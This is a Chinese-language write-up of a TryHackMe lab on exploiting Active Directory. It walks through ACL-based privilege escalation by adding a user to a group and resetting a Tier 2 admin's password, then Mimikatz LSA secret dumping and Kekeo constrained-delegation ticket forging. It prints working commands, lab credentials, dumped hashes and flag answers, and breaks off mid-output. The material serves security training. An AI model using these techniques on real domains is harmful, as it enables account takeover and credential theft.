# Exploiting Active Directory - Active Directory 利用

> [TryHackMe | Exploiting Active Directory](https://tryhackme.com/room/exploitingad)
>
> Updated in 2023-12-12
>
> 学习常见的 AD 利用技术，让你在 AD 环境中达成目标。
>
> Learn common AD exploitation techniques that can allow you to reach your goal in an AD environment.

## Introduction

这个网络是 `Breaching AD` 和 `Enumerating AD` 的延续。请确保在继续进行这个网络之前完成这些网络。另外，请注意，我们将会对 AD 对象进行详细讨论。如果你需要复习，请快速浏览一下这个房间。现在我们已经突破了 AD 并枚举了域的结构，我们将探索不同的方法，利用可能在我们枚举中浮出水面的配置错误。

### AD 利用

现在我们已经执行了内部侦察，并了解了关于 AD 结构和环境的情况，是时候进入利用阶段了。这个阶段利用配置错误执行横向移动和权限提升的组合，直到我们达到一个适当的位置来执行我们的目标，如下图所示。这个阶段通常与持久化结合在一起，以确保我们不会失去新获得的位置，但这将在下一个房间中讨论。通常还会与额外的枚举结合在一起，因为我们的新位置可能允许我们获取有关环境情况的其他信息。

<div style={{textAlign:'center'}}>


</div>

### 学习目标

在这个网络中，我们将涵盖几种可以用来利用 AD 配置错误的方法。这绝不是一个完整的列表，因为可用的方法通常高度情境化，取决于 AD 结构和环境。但是，我们将涵盖以下用于利用 AD 的技术：

- AD 委派
- 强制身份验证中继
- 组策略对象
- 针对 AD 用户
- 域信任
- 白银票据和黄金票据

### 初始凭据

访问 `http://distributor.za.tryhackme.loc/creds` 得到初始凭据

```plaintext
Your credentials have been generated: Username: christopher.smith Password: Mznl7973
```

## Exploiting Permission Delegation - 利用权限委派

Active Directory 可以通过一个名为 Permission Delegation（不要与接下来要讨论的 Kerberos 委派混淆）的功能来委派权限和特权。委派是使 AD 在组织中如此强大的原因。想象一下，我们为一个有 50000 名员工的组织工作。由于我们关心安全，我们只有三个用户可以访问 DA 凭据。对于这三个用户来说，处理所有用户的请求，比如重置他们的密码，将是不可能的。使用委派，我们可以将强制更改用户密码的权限委派给帮助台团队，这意味着他们现在对这个特定功能拥有了委派特权。原则上，为了保持委派的安全性，应该遵循最小特权原则。然而，在大型组织中，要做到这一点并不容易。在这个任务中，我们将看看如何利用一些委派配置错误。

### 权限委派

权限委派的利用通常被称为基于 ACL 的攻击。AD 允许管理员配置访问控制条目（ACE），这些条目填充了自主访问控制列表（DACL），因此得名基于 ACL 的攻击。几乎任何 AD 对象都可以通过 ACE 进行安全配置，然后描述其他任何 AD 对象对目标对象具有的允许和拒绝权限。

然而，如果这些 ACE 被配置错误，攻击者可能会利用它们。让我们再次看看我们的例子。如果 IT 支持团队被授予了对 Domain Users 组的 ForceChangePassword ACE，这将被视为不安全。当然，他们可以重置忘记密码的员工的密码，但这种配置错误也会允许他们重置特权帐户的密码，例如属于 Domain Admins 组的帐户，实质上允许特权提升。

### 利用 ACE（访问控制条目）

滥用 ACE（访问控制条目）的数量可观，每个漏洞利用的方式都有所不同。[Bloodhound 文档](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#) 有助于解释列举的 ACE 以及它们如何被利用。然而，在这里我们将看一下几个显著的：

- ForceChangePassword：我们有能力在不知道用户当前密码的情况下设置其当前密码。
- AddMembers：我们有能力将用户（包括我们自己的帐户）、组或计算机添加到目标组。
- GenericAll：我们对对象拥有完全控制权，包括更改用户密码、注册 SPN 或将 AD 对象添加到目标组的能力。
- GenericWrite：我们可以更新目标对象的任何非受保护参数。例如，这可能使我们能够更新 scriptPath 参数，这将导致用户下次登录时执行脚本。
- WriteOwner：我们可以更新目标对象的所有者。我们可以将自己设为所有者，从而获得对对象的额外权限。
- WriteDACL：我们可以向目标对象的 DACL 中写入新的 ACE。例如，我们可以写入一个 ACE，授予我们的帐户对目标对象的完全控制。
- AllExtendedRights：我们可以执行与目标对象相关的扩展 AD 权限的任何操作。这包括例如强制更改用户密码的能力。

为了利用这些 ACE，我们需要一种与 AD 交互的方法来发出这些请求。两种最佳选择是 AD-RSAT PowerShell cmdlet 或 PowerSploit。根据入侵情况和环境中的检测工具，其中一种选项可能更隐秘。在这个任务中，我们将展示两种方法。

### Bloodhound

Sharphound 已经为您执行过，并作为一个任务文件附加了进来。在 AttackBox 或您的 Kali 机器上启动 Bloodhound 并导入数据。但是，您也可以按照 “枚举 AD” 房间提供的步骤重新运行 Sharphound。

:::tip

如果出现 `Unable to connect to LDAP, verify your credentials` ，请验证您的凭据并确保域设置正确

:::

我们提供了一个 SharpHound 数据的 ZIP 文件作为一个任务文件。在 AttackBox 上，您可以在 `/root/Rooms/ExploitingAD/` 下找到 ZIP 文件。首先，我们需要启动 neo4j：

```shell title="Command Prompt"
thm@thm:~# neo4j console start
Active database: graph.db
Directories in use:
  home:         /var/lib/neo4j
  config:       /etc/neo4j
  logs:         /var/log/neo4j
  plugins:      /var/lib/neo4j/plugins
  import:       /var/lib/neo4j/import
  data:         /var/lib/neo4j/data
  certificates: /var/lib/neo4j/certificates
  run:          /var/run/neo4j
Starting Neo4j.
[....]
2022-03-13 19:59:18.014+0000 INFO  Bolt enabled on 127.0.0.1:7687.
```

在另一个终端选项卡中运行命令 `bloodhound --no-sandbox`。这将显示认证的 GUI 界面：

<div style={{textAlign:'center'}}>


</div>

### 权限提升

如果在 Bloodhound 中搜索我们在任务 1 中分配的用户账户，我们会发现我们并没有很多权限。我们有能力远程桌面连接到 THMWRK1，但这只会给我们提供低权限的访问。

<div style={{textAlign:'center'}}>



</div>

由于域是分层的，我们的第一步将是攻击第二层基础设施。我们需要攻击第二层管理员组，因为这个组对所有工作站具有管理员特权。让我们询问 Bloodhound 是否有可能找到一条路径来攻击这个组。将你的用户账户作为起始位置，第二层管理员组作为终止位置添加进去。

<div style={{textAlign:'center'}}>



</div>

Bloodhound 显示了一个非常有趣的路径。看起来在这个域中有一点点权限委派。一个管理员通过为 IT 支持组提供了对 Domain Users 组的 AddMembers ACE 来错误配置了权限委派。这意味着 Domain Users 组的任何成员（包括我们的账户）都可以将帐户添加到 IT 支持组中。此外，Bloodhound 显示 IT 支持组对于第二层管理员组成员有 ForceChangePassword ACE。这不是真正的配置错误，因为第二层管理员并不那么敏感，但当与最初的错误配置结合时，它提供了一条非常有效的攻击路径。让我们利用它！

### AddMember - 添加成员

这个攻击路径的第一步是将我们的 AD 账户添加到 IT 支持组。我们将使用 AD-RSAT 工具集中的 Add-ADGroupMember PowerShell cmdlet 来实现。在 THMJMP1 主机上启动 PowerShell（无论是通过 RDP 还是通过 SSH），并运行以下命令来添加你的账户：

```powershell title="PowerShell"
PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
```

我们可以使用 Get-ADGroupMember 命令来验证命令是否生效：

```powershell title="PowerShell"
PS C:\>Get-ADGroupMember -Identity "IT Support"
distinguishedName : CN=hugh.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
name              : hugh.jones
objectClass       : user
objectGUID        : 460178d3-c818-4e28-9a39-b1ab2b0d3779
SamAccountName    : hugh.jones
SID               : S-1-5-21-3885271727-2693558621-2658995185-1113
```

如果一切顺利，你应该能看到你的账户作为成员。

### 强制更改密码

现在我们是 IT 支持组的成员，我们已经继承了对第二层管理员组的 ForceChangePassword 权限委派。首先，我们需要识别这个组的成员以选择一个目标。我们可以再次使用 Get-ADGroupMember 命令来辅助进行这项工作：

```powershell
PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins"
distinguishedName : CN=t2_lawrence.lewis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_lawrence.lewis
objectClass       : user
objectGUID        : 4ca61b47-93c8-44d2-987d-eca30c69d828
SamAccountName    : t2_lawrence.lewis
SID               : S-1-5-21-3885271727-2693558621-2658995185-1893

[....]

distinguishedName : CN=t2_leon.francis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_leon.francis
objectClass       : user
objectGUID        : 854b6d40-d537-4986-b586-c40950e0d5f9
SamAccountName    : t2_leon.francis
SID               : S-1-5-21-3885271727-2693558621-2658995185-3660
```

记下其中一个账户的用户名。由于网络是共享的，最好选择列表中的后面一个。我们将使用 Set-ADAccountPassword AD-RSAT cmdlet 来强制更改密码：

```powershell
PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force
PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password
```

:::tip

如果出现 “拒绝访问” 错误，你的权限可能还没有在域中传播。这可能需要最多 10 分钟的时间。最好的方法是终止你的 SSH 或 RDP 会话，稍作休息，然后重新认证并重试。你也可以运行 `gpupdate /force`，然后断开连接并重新连接，在某些情况下，这样做会加快同步的速度。

:::

如果这一步成功了，你现在应该能够使用这个目标账户和它的新密码在 THMWRK1 上进行身份验证。你目前具有对这台工作站的管理员访问权限。恭喜你！通过利用权限委派，你已正式将权限提升到了第二层管理员。

:::info Answer the questions below

哪个 ACE 允许您更新目标对象的任何不受保护的参数？

```plaintext
GenericWrite
```

THMWRK1 上管理员用户桌面上存储的标志值是多少 (flag1.txt)？

<details>

<summary> 具体操作步骤 </summary>

在通过 SSH 连接到 thmwrk1 之后

```shell
ssh za.tryhackme.loc\\christopher.smith@thmwrk1.za.tryhackme.loc
```

切换到 powershell，并将自身账户加入到 `IT Support` 用户组里面

```powershell
PS C:\Users\christopher.smith> Add-ADGroupMember "IT Support" -Members "christopher.smith"
```

可以使用以下指令检查 `IT Support` 用户组内是否有自己的账户

```powershell
Get-ADGroupMember -Identity "IT Support"
```

接下来在二级管理员组里面挑选一名受害用户，并更改其用户密码

```powershell
PS C:\Users\christopher.smith> Get-ADGroupMember -Identity "Tier 2 Admins"
......
distinguishedName : CN=t2_melanie.davies,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_melanie.davies
objectClass       : user
objectGUID        : c9625ed3-0391-40ba-9c6d-b4046049c434
SamAccountName    : t2_melanie.davies
SID               : S-1-5-21-3885271727-2693558621-2658995185-5929

PS C:\Users\christopher.smith> $Password = ConvertTo-SecureString "admin12345ABC" -AsPlainText -Force
PS C:\Users\christopher.smith> Set-ADAccountPassword -Identity "t2_melanie.davies" -Reset -NewPassword $Password
```

然后就可以通过 SSH 登录到此账户

```shell
ssh za.tryhackme.loc\\t2_melanie.davies@thmwrk1.za.tryhackme.loc
```

```shell
za\t2_melanie.davies@THMWRK1 C:\Users\Administrator\Desktop>whoami
za\t2_melanie.davies
za\t2_melanie.davies@THMWRK1 C:\Users\Administrator\Desktop>type flag1.txt
THM{Permission.Delegation.FTW!}
```

</details>

```plaintext
THM{Permission.Delegation.FTW!}
```

:::

## Exploiting Kerberos Delegation - 利用 Kerberos 委派

接下来，我们将看看 Kerberos 委派。当谈论 AD 委派时，通常讨论的是 Kerberos 委派，而不是权限委派。

### Kerberos 委派

Kerberos 委派的实际用途是使应用程序能够访问托管在不同服务器上的资源。例如，一个 Web 服务器需要访问托管在数据库服务器上的 SQL 数据库，以供其托管的 Web 应用程序使用。如果没有委派，我们可能会使用一个 AD 服务账户，并直接授予它对数据库的访问权限。当在 Web 应用程序上进行请求时，服务账户将用于对数据库进行身份验证和检索信息。

但是，我们可以允许该服务账户被委派到 SQL 服务器服务。一旦用户登录到我们的 Web 应用程序，服务账户将代表该用户请求访问数据库。这意味着用户只能访问他们具有相关权限的数据库数据，而无需为服务账户本身提供任何数据库特权或权限。

### 受约束与无约束

有两种类型的 Kerberos 委派。在 Kerberos 委派的最初实现中，使用的是 Unconstrained Delegation （无约束委派），这是最不安全的方法。实质上，Unconstrained Delegation 没有对委派设置任何限制。在背景中，如果一个设置了 “TRUSTED_FOR_DELEGATION” 标志的用户在具有 Unconstrained Delegation 配置的主机上进行了身份验证，就会生成并存储该用户账户的票据授权票证（TGT），以便以后需要时使用。假设攻击者能够入侵一个启用了 Unconstrained Delegation 的主机，他们可以尝试迫使一个特权帐户对主机进行身份验证，这将允许他们拦截生成的 TGT 并冒充特权服务。如果你想看一个关于 Unconstrained Delegation 漏洞利用的例子，可以看 [Exploiting Unconstrained Delegation](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976) 。

为了解决 Unconstrained Delegation 的安全问题，Microsoft 在 2003 年引入了 Constrained Delegation （约束委派）。Constrained Delegation 限制了一个帐户可以被委派到哪些服务，从而在帐户在遭遇入侵时限制了暴露的范围。以下是可以配置委派的一些示例服务：

- HTTP：用于 Web 应用程序，允许使用 AD 凭据进行透传身份验证。
- CIFS：用于文件共享的 Common Internet File System，允许用户委派到共享。
- LDAP：用于向 LDAP 服务委派，比如重置用户密码等操作。
- HOST：允许在主机上进行所有活动的帐户委派。
- MSSQL：允许将用户帐户委派给 SQL 服务，以进行对数据库的透传身份验证。

利用 Constrained Delegation 通常比利用 Unconstrained Delegation 更复杂，因为被委派的帐户不能被用于所有活动。然而，它仍然可以用于一些强大的利用。例如，如果我们能够入侵一个配置了 Constrained Delegation 的 AD 账户。通过知道这个账户的明文密码甚至只是 NTLM 哈希，我们可以为这个账户生成一个 TGT，然后使用该 TGT 对任何非敏感用户账户执行票据授权服务器（TGS）请求，以便作为该用户访问服务。想象一下冒充一个可以访问敏感数据库的账户的情况。

### 基于资源的委派

其实有三种类型的 Kerberos 委派。但 Resource-Based Constrained Delegation（RBCD）非常值得单独提及。由 Microsoft 在 2012 年引入，RBCD 再次为 Kerberos 委派增加了额外的安全限制。RBCD 完全改变了委派模型。不再是指定哪个对象可以委派给哪个服务，而是服务现在指定了哪些对象可以委派给它。这使得服务所有者能够控制谁可以访问它。在我们的 Web 应用程序示例中，这意味着我们不再需要指定 Web 服务帐户可以委派给数据库服务以访问数据库，而是可以在数据库服务上指定允许 Web 服务帐户委派访问它。

假设我们有权限为一个服务配置 RBCD。这意味着我们有能力为 AD 对象设置 msDS-AllowedToActOnBehalfOfOtherIdentity 属性。我们可以用我们访问权限的 AD 账户的详细信息填充这个属性。现在，为了访问这个服务，我们可以为我们控制的账户生成一个 TGT，这将允许我们与这个服务交互。如果你想了解 RBCD 利用的详细示例，可以看 [Resource-Based Constrained Delegation Abuse](https://blog.netwrix.com/2022/09/29/resource-based-constrained-delegation-abuse/) 。

### 针对受限委托的利用

我们将利用 Constrained Delegation 来完成这个任务。首先，我们需要枚举可用的委派。我们可以使用我们的新特权用户在网络上运行一些命令。我们可以使用 PowerSploit 的 Get-NetUser 命令来进行这个枚举，运行以下命令：

```shell title="PowerShell"
PS C:\>Import-Module C:\Tools\PowerView.ps1
PS C:\>Get-NetUser -TrustedToAuth
```

根据这个命令的输出，我们可以看到 svcIIS 账户可以委派 THMSERVER1 上的 HTTP 和 WSMAN 服务。你可能会认为这意味着我们只能代表模拟用户访问网站。然而，PowerShell 远程管理也使用 HTTP 和 WSMAN 服务。理想的选择是冒充一个第一层管理员，因为这将为我们提供对 THMSERVER1 的管理访问权限。

如果你对 THMWRK1 进行适当的后渗透枚举，你会发现主机上有一个作为 svcIIS 用户运行的服务。由于我们现在有管理访问权限，我们可以利用这一点来 dump LSASecrets，Windows 注册表中存储凭据的一部分，用于诸如 Windows 服务等功能。让我们使用 Mimikatz 来 dump 这些秘密：

```shell title="Command Prompt"
C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM


mimikatz # lsadump::secrets
Domain : THMWRK1
SysKey : redacted

Local name : THMWRK1 (S-1-5-21-3226461851-763325627-4205969673)
Domain name : ZA (S-1-5-21-3885271727-2693558621-2658995185)
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret  : $MACHINE.ACC
cur/text: redacted
    NTLM:redacted
    SHA1:redacted
old/text: redacted
    NTLM:redacted
    SHA1:redacted

Secret  : DefaultPassword
cur/text: redacted
old/text: redacted

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: redacted
```

让我们来运行这两个命令：

- `token::elevate` - 为了从注册表中 dump 出秘密，我们需要冒充 SYSTEM 用户。
- `lsadump::secrets` - Mimikatz 与注册表进行交互以提取明文凭据。

现在我们可以访问与 svcIIS 账户关联的密码，我们可以执行 Kerberos 委派攻击。我们将使用 [Kekeo](https://github.com/gentilkiwi/kekeo) 和 [Mimikatz](https://github.com/gentilkiwi/mimikatz) 的组合。你可以在 Mimikatz 中使用另一个窗口，但确保在 token::elevate 命令之后退出 Mimikatz，否则后续加载的票证会在错误的上下文中。我们将使用 Kekeo 生成我们的票证，然后使用 Mimikatz 将这些票证加载到内存中。让我们首先生成票证：

```shell title="Command Prompt"
PS C:\> C:\Tools\kekeo\x64\kekeo.exe

  ___ _    kekeo 2.1 (x64) built on Dec 14 2021 11:51:55
 /   ('>-"A La Vie, A L'Amour"
 | K  |    /* * *
 \____/     Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
  L\_       https://blog.gentilkiwi.com/kekeo                (oe.eo)
                                             with 10 modules * * */

kekeo #
```

首先，我们需要生成一个 TGT，用于生成 HTTP 和 WSMAN 服务的票证：

```shell title="Kekeo"
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted
Realm        : za.tryhackme.loc (za)
User         : svcIIS (svcIIS)
CName        : svcIIS   [KRB_NT_PRINCIPAL (1)]
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)]
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

参数解释：

- `user` - 具有受限委派权限的用户。
- `domain` - 我们正在攻击的域，因为 Kekeo 可以用来伪造票证以滥用跨域信任。
- `password` - 与 svcIIS 账户相关联的密码。

现在我们有了可以执行委派的账户的 TGT，我们可以伪造 TGS 请求以冒充我们想要模拟的账户。我们需要为 HTTP 和 WSMAN 都执行这个操作，以允许我们在 THMSERVER1 上创建一个 PSSession：

```shell title="Kekeo"
kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
Ticket  : TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
  [krb-cred]     S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [krb-cred]     E: [00000012] aes256_hmac
  [enc-krb-cred] P: svcIIS @ ZA.TRYHACKME.LOC
  [enc-krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [enc-krb-cred] T: [4/30/2022 1:29:00 PM ; 4/30/2022 11:29:00 PM] {R:5/7/2022 1:29:00 PM}
  [enc-krb-cred] F: [40e10000] name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
  [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac      ): 548e500d4ee2f5c61710254ea9dd43e2ce0123026d329c97e512695e2f1777a7
  [s4u2self] t1_trevor.jones
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

参数解释：

- `tgt` - 我们在上一步中生成的 TGT。
- `user` - 我们想要冒充的用户。由于 t2_账户在工作站上具有管理访问权限，可以合理推断 t1_账户将具有服务器的管理访问权限，因此选择一个你想要冒充的 t1_账户。
- `service` - 我们想要使用委派冒充的服务。首先为 HTTP 服务生成一个 TGS。然后，我们可以再次运行相同的命令为 WSMAN 服务生成 TGS。

再次运行命令，这次为 WSMAN 服务。现在我们有了这两个 TGS 票证，我们可以使用 Mimikatz 来导入它们：

```shell title="Mimikatz"
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK
```

你可以退出 Mimikatz 并运行 klist 来验证票证是否已导入。现在票证已经导入，我们终于可以在 THMSERVER1 上创建我们的 PSSession 了：

```shell
mimikatz # exit
Bye!
PS C:> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available


PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
za\t1_trevor.jones
```

通过利用了受限委派，现在我们拥有了对 THMSERVER1 的特权访问！

:::info Answer the questions below

哪种 Kerberos 委派类型允许委派所有服务？

```plaintext
Unconstrained Delegation
```

哪种 Kerberos 委派类型允许服务指定谁可以委派给它？

```plaintext
Resource-Based Constrained Delegation
```

哪个约束委派服务允许通过委派访问系统的文件系统？

```plaintext
CIFS
```

THMSERVER1 上管理员用户的桌面目录中存储的标志值 (flag2.txt) 是多少？

<details>

<summary> 具体操作步骤 </summary>

首先，SSH 连接入口点靶机

```shell
ssh za.tryhackme.loc\\t2_melanie.davies@thmwrk1.za.tryhackme.loc
```

导入相关模块后，查看特权用户：

```powershell
PS C:\Users\t2_melanie.davies> Import-Module C:\Tools\PowerView.ps1
PS C:\Users\t2_melanie.davies> Get-NetUser -TrustedToAuth


logoncount               : 39
badpasswordtime          : 12/12/2023 10:16:56 AM
distinguishedname        : CN=IIS Server,CN=Users,DC=za,DC=tryhackme,DC=loc
objectclass              : {top, person, organizationalPerson, user}
displayname              : IIS Server
lastlogontimestamp       : 12/9/2023 10:02:26 PM
userprincipalname        : svcIIS@za.tryhackme.loc
name                     : IIS Server
objectsid                : S-1-5-21-3885271727-2693558621-2658995185-6155
samaccountname           : svcIIS
codepage                 : 0
samaccounttype           : USER_OBJECT
accountexpires           : NEVER
countrycode              : 0
whenchanged              : 12/9/2023 10:02:26 PM
instancetype             : 4
usncreated               : 78494
objectguid               : 11e42287-0a25-4d73-800d-b62e2d2a2a4b
sn                       : Server
lastlogoff               : 1/1/1601 12:00:00 AM
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1}
objectcategory           : CN=Person,CN=Schema,CN=Configuration,DC=tryhackme,DC=loc
dscorepropagationdata    : 1/1/1601 12:00:00 AM
serviceprincipalname     : HTTP/svcServWeb.za.tryhackme.loc
givenname                : IIS
lastlogon                : 12/12/2023 6:16:12 AM
badpwdcount              : 1
cn                       : IIS Server
useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated              : 4/27/2022 11:26:21 AM
primarygroupid           : 513
pwdlastset               : 4/29/2022 11:50:25 AM
usnchanged               : 155707
```

然后启动 mimikatz

```shell
PS C:\Users\t2_melanie.davies> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

488     {0;000003e7} 1 D 17769          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;00363712} 0 D 3569247     ZA\t2_melanie.davies    S-1-5-21-3885271727-2693558621-2658995185-5929  (12g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 3598685     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::secrets
Domain : THMWRK1
SysKey : a1403e57976b472bce5f231922ca3942

Local name : THMWRK1 (S-1-5-21-3226461851-763325627-4205969673)
Domain name : ZA (S-1-5-21-3885271727-2693558621-2658995185)
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret  : $MACHINE.ACC
cur/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db
old/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db

Secret  : DefaultPassword
old/text: vagrant

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 b6 54 c4 83 d9 88 10 f6 ee ae fc b7 ed 2d a2 d6 47 11 3f 8f 4a 6d 7f 72 35 b8 a2 93 3d 5c 5e 3f 03 8d 79 49 90 e7 2e e0
    full: b654c483d98810f6eeaefcb7ed2da2d647113f8f4a6d7f7235b8a2933d5c5e3f038d794990e72ee0
    m/u : b654c483d98810f6eeaefcb7ed2da2d647113f8f / 4a6d7f7235b8a2933d5c5e3f038d794990e72ee0
old/hex : 01 00 00 00 10 4d a3 82 e2 da 30 1f 33 d6 49 a4 c9 81 26 e5 25 59 bb 9f 8a 76 b1 5d 59 c6 87 c6 32 b7 02 0b c1 5b 24 f4 44 d0 74 31
    full: 104da382e2da301f33d649a4c98126e52559bb9f8a76b15d59c687c632b7020bc15b24f444d07431
